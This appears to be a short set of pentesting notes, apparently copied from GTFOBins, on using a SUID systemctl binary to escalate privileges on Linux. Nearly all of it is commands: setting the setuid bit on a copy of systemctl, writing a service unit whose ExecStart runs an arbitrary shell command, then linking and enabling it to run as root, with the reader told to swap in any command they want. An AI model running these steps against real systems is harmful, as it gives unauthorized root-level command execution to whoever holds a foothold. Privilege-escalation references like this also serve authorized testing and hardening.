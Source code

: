 https://gtfobins.github.io/

## systemctl
### suid
Go to folder you can write to (/tmp)
```
sudo install -m =xs $(which systemctl) .

TF=$(mktemp).service
echo '[Service]
```
Should bring up a ">" prompt
Change the "id" command for what you want to do:
```
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
```
May have to use full path here:
```
./systemctl link $TF
/bin/systemctl link $TF
```
Same path:
```
./systemctl enable --now $TF
/bin/systemctl enable --now $TF
```
